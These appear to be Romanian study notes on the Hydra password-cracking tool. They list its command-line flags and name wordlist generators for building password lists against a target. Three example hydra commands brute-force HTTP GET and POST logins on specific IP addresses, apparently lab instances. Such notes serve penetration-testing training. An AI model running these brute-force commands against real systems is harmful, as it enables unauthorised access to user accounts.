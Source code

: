 `-C` -- pentru perechea de `user:pass`
`-s` -- portul pentru serviciul specificat
`http-get` -- este folosit pentru formul care esa momental pe site 
`-f` -- se opreste daca gaseste username si parola corecta
`-L` -- lista de username
`-l` -- pentru un username static
`-P` -- lista de passwords
`-p` -- pentru un password static
`-u` -- ?
`http-post-form -U` - ne arata unele exemple si cum trebuie sa fii folosita formul dat

Pentru a genera dictionarile pentro o victina putem folosi instrumentul [[cupp]] in caz ca avem nevoie de shimbare unui cuvant cu altul sau schimbari folosim [[rsmangler]] (https://github.com/digininja/RSMangler) sau [The Mentalist](https://github.com/sc0tfree/mentalist.git). 



# Exemples
```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt -s 35040  94.237.62.195 http-get /
```

```bash 
hydra -P /usr/share/wordlists/rockyou.txt -L Names/names.txt -u -f 94.237.62.195 -s 53474 http-get /
```

```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.59.206 -s 49589 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
